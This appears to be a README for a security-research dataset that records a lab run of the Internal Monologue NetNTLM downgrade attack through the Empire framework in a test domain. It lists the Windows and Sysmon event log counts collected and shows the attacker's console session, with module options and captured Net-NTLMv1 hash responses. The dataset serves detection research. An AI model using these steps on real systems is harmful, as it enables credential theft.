 # Empire Extended NetNTLM Downgrade

Adversary can downgrade the challenge/response authentication protocol used for network logons, the minimum security negotiated for applications using NTLMSSP, and security settings that restrict outgoing NTLM traffic to remote servers in my environment

## Technique(s) ID

T1003

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_extended_ntlm_downgrade.tar.gz](./empire_extended_ntlm_downgrade.tar.gz)

## Network Environment

Shire

## Time Taken

2019-12-25045202

## About this file

| log_name                                 | source_name                         | task                          |   record_number |
|------------------------------------------|-------------------------------------|-------------------------------|-----------------|
| security                                 | Microsoft-Windows-Security-Auditing | Registry                      |              84 |
| security                                 | Microsoft-Windows-Security-Auditing | Filtering Platform Connection |              68 |
| security                                 | Microsoft-Windows-Security-Auditing | Handle Manipulation           |              24 |
| security                                 | Microsoft-Windows-Security-Auditing | Process Creation              |               1 |
| security                                 | Microsoft-Windows-Security-Auditing | Process Termination           |               1 |
| security                                 | Microsoft-Windows-Security-Auditing | Sensitive Privilege Use       |               1 |
| Windows PowerShell                       | PowerShell                          | Pipeline Execution Details    |             149 |
| Security                                 | Microsoft-Windows-Security-Auditing | Filtering Platform Connection |              73 |
| Security                                 | Microsoft-Windows-Security-Auditing | Logoff                        |               5 |
| Security                                 | Microsoft-Windows-Security-Auditing | Group Membership              |               4 |
| Security                                 | Microsoft-Windows-Security-Auditing | Logon                         |               4 |
| Security                                 | Microsoft-Windows-Security-Auditing | Special Logon                 |               4 |
| Security                                 | Microsoft-Windows-Security-Auditing | Sensitive Privilege Use       |               3 |
| Security                                 | Microsoft-Windows-Security-Auditing | Other Object Access Events    |               1 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | na                            |            1090 |
| Microsoft-Windows-PowerShell/Operational | Microsoft-Windows-PowerShell        | Executing Pipeline            |             123 |

## Attacker Activity

```
(Empire: XFLEZM9N) > usemodule credentials/invoke_internal_monologue*
(Empire: powershell/credentials/invoke_internal_monologue) > info

              Name: Invoke-InternalMonologue
            Module: powershell/credentials/invoke_internal_monologue
        NeedsAdmin: True
         OpsecSafe: False
          Language: powershell
MinLanguageVersion: 2
        Background: False
   OutputExtension: None

Authors:
  @eladshamir
  @4lex

Description:
  Uses the Internal Monologue attack to force easily-
  decryptable Net-NTLMv1 responses over localhost and without
  directly touching LSASS.
  https://github.com/eladshamir/Internal-Monologue

Comments:
  The underlying powershell function accepts switches that
  [DISABLE] default behaviours. The default settings will
  downgrade NetNTLM responses to v1, impersonate all users,
  use challenge 1122334455667788 and restore the registry to
  its original state. Set the options in this module to True
  in order to DISABLE the behaviours Disabling Downgrade and
  Impersonation yields higher OPSEC, but less than ideal loot

Options:

  Name        Required    Value                     Description
  ----        --------    -------                   -----------
  Agent       True        XFLEZM9N                  Agent to use for InternalMonologue      
  Challenge   True        1122334455667788          Net-NTLM Challenge to send              
  Downgrade   False                                 DISABLE downgrading to allow Net-NTLMv1 
                                                    responses                               
  Impersonate False                                 DISABLE user impersonation and fetch    
                                                    only current user                       
  Restore     False                                 DISABLE restoring the registry setting  
                                                    that allowed v1 responses               
  Verbose     False                                 Verbose                                 

(Empire: powershell/credentials/invoke_internal_monologue) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked XFLEZM9N to run TASK_CMD_WAIT
[*] Agent XFLEZM9N tasked with task ID 2
[*] Tasked agent XFLEZM9N to run module powershell/credentials/invoke_internal_monologue
(Empire: powershell/credentials/invoke_internal_monologue) > pgustavo::shire:6c5a5d82ec8bf7d84989d0876cdfe1b57a0019b72517ca9f:6c5a5d82ec8bf7d84989d0876cdfe1b57a0019b72517ca9f:1122334455667788
IT001$::shire:cf1dd7f62b7394958df43c8bbdff4888495a7e572a359017:cf1dd7f62b7394958df43c8bbdff4888495a7e572a359017:1122334455667788
```